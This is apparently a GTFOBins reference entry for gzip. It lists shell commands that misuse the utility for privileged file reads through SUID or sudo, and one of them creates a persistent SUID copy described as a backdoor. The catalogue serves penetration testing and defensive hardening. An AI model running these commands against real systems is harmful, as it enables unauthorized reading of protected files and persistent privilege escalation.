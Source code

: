 # GTFOBin: gzip

There are also a number of other utilities that rely on `gzip` under the hood, e.g., `zless`, `zcat`, `gunzip`, etc. Besides having similar features, they also allow privileged reads if `gzip` itself is SUID.

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
gzip -f $LFILE -t
```

```
LFILE=file_to_read
gzip -c $LFILE | gzip -d
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which gzip) .

LFILE=file_to_read
./gzip -f $LFILE -t
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo gzip -f $LFILE -t
```